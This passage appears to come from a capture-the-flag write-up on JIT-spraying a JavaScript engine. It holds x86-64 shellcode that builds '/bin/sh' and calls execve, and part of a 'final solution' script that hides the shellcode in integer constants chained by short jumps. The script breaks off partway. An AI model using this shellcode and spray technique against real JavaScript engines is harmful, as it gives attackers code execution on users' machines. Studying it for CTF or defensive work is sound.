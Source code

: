 ```

pop rax
mov byte ptr [rbx], al
inc bl

pop rax
mov byte ptr [rbx], al
inc bl

pop rax
mov byte ptr [rbx], al
inc bl

pop rax
mov byte ptr [rbx], al
inc bl

pop rax
mov byte ptr [rbx], al
inc bl

pop rax
mov byte ptr [rbx], al
inc bl

# setup rsi, rdx, and rax to do execve("/bin/sh", 0, 0)
xor esi, esi
xor edx, edx
push 59
pop rax
syscall
```

### win

Now we need to separate the instructions of this shellcode into 2-byte blocks and add a small jump at the end of each block to the beginning of the next block, and write the bytes in a js script to win. This is the final solution script:

```javascript
for (let i = 0; i < 1; i++) {
	if (i == 0) {
		0x09eb006a;	// push 0
		0x09eb686a;	// push 0x68
		0x09eb736a;	// push 0x73
		0x09eb2f6a;	// push 0x2f
		0x09eb6e6a;	// push 0x6e
		0x09eb696a;	// push 0x69
		0x09eb626a;	// push 0x62
		0x09eb2f6a;	// push 0x2f
		0x16eb5f53;	// push rbx; pop rdi
		
		0xcc89eb;	// backward jump
		
		0x09eb9058;	// pop rax ; nop
		0x09eb0388;	// mov byte ptr [rbx], al
		0x09ebc3fe;	// inc bl
		0x09eb9058;	// same 3 instructions repeated...
		0x09eb0388;
		0x09ebc3fe;
		0x09eb9058;
		0x16eb0388;
		
		0xcc89eb;	// backward jump
```